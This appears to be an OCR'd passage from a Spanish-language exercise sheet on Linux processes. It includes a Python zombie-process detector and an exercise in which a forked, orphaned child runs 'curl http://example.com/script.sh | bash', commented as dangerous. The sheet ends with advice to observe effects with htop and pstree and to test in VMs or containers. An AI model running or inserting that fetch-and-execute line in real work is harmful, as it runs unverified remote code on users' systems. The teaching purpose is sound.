 ```python
import os

def detectar_zombis():
    for pid in os.listdir('/proc'):
        if pid.isdigit():
            try:
                with open(f"/proc/{pid}/status") as f:
                    lines = f.readlines()
                    estado = next((l for l in lines if l.startswith("State:")), "")
                    if "Z" in estado:
                        nombre = next((l for l in lines if l.startswith("Name:")), "").split()[1]
                        ppid = next((l for l in lines if l.startswith("PPid:")), "").split()[1]
                        print(f"Zombi detectado → PID: {pid}, PPID: {ppid}, Nombre: {nombre}")
            except IOError:
                continue

detectar_zombis()
```

---

### Ejercicio 10: Inyección de comandos en procesos huérfanos

```python
import os, time

pid = os.fork()
if pid > 0:
    os._exit(0)  # El padre termina inmediatamente
else:
    print("[HIJO] Ejecutando script como huérfano...")
    os.system("curl http://example.com/script.sh | bash")  # Peligroso si no hay control
    time.sleep(3)
```

---

## Recomendaciones Finales

- Usa `htop`, `pstree`, y `ps -el` para observar los efectos de cada ejercicio.
- Ejecuta con permisos limitados y en entornos de prueba (máquinas virtuales o contenedores).
- Modifica los códigos para generar variantes: múltiples niveles de procesos, procesos que fallan, etc.

---